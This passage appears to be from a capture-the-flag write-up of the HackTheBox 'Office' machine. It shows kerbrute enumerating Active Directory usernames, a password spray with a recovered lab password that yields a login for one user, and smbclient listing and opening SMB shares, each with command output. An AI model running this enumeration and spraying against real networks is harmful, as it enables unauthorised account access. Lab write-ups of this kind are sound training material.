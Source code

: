 Our scan did not reveal a MySQL database; it could be running on localhost. With this credential, there has been no successful login to the SMB port or the login portal.

Now, let's enumerate for valid AD accounts through [kerbrute](https://github.com/ropnop/kerbrute):

```
kerbrute userenum -d office.htb --dc 10.129.224.247 /usr/share/SecLists/Usernames/xato-net-10-million-usernames.txt 

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 02/27/24 - Ronnie Flathers @ropnop

2024/02/27 12:38:42 >  Using KDC(s):
2024/02/27 12:38:42 >  	10.129.224.247:88

2024/02/27 12:38:43 >  [+] VALID USERNAME:	 administrator@office.htb
2024/02/27 12:38:46 >  [+] VALID USERNAME:	 Administrator@office.htb
2024/02/27 12:38:47 >  [+] VALID USERNAME:	 ewhite@office.htb
2024/02/27 12:38:47 >  [+] VALID USERNAME:	 etower@office.htb
2024/02/27 12:38:47 >  [+] VALID USERNAME:	 dwolfe@office.htb
2024/02/27 12:38:47 >  [+] VALID USERNAME:	 dlanor@office.htb
2024/02/27 12:38:47 >  [+] VALID USERNAME:	 dmichael@office.htb
2024/02/27 12:39:29 >  [+] VALID USERNAME:	 hhogan@office.htb
2024/02/27 12:39:40 >  [+] VALID USERNAME:	 DWOLFE@office.htb
2024/02/27 12:42:21 >  [+] VALID USERNAME:	 DLANOR@office.htb
2024/02/27 12:45:12 >  [+] VALID USERNAME:	 tstark@office.htb
```

Using the previous credential to bruteforce together with the list of usernames:

```
kerbrute passwordspray -d office.htb --dc 10.10.11.3 usernames.txt H0lOgrams4reTakIng0Ver754!

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 02/27/24 - Ronnie Flathers @ropnop

[+] VALID LOGIN WITH ERROR:       dwolfe@office.htb:H0lOgrams4reTakIng0Ver754!    (Clock skew is too great)
Done! Tested 11 logins (1 successes) in 0.445 seconds
```

So, with this, we can have a deeper look on SMB:

```
smbclient -U dwolfe@office.htb%H0lOgrams4reTakIng0Ver754! -L //10.129.224.247

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	NETLOGON        Disk      Logon server share 
	SOC Analysis    Disk      
	SYSVOL          Disk      Logon server share 
SMB1 disabled -- no workgroup available

smbclient -U dwolfe@office.htb%H0lOgrams4reTakIng0Ver754! //10.129.224.247/SOC\ Analysis
```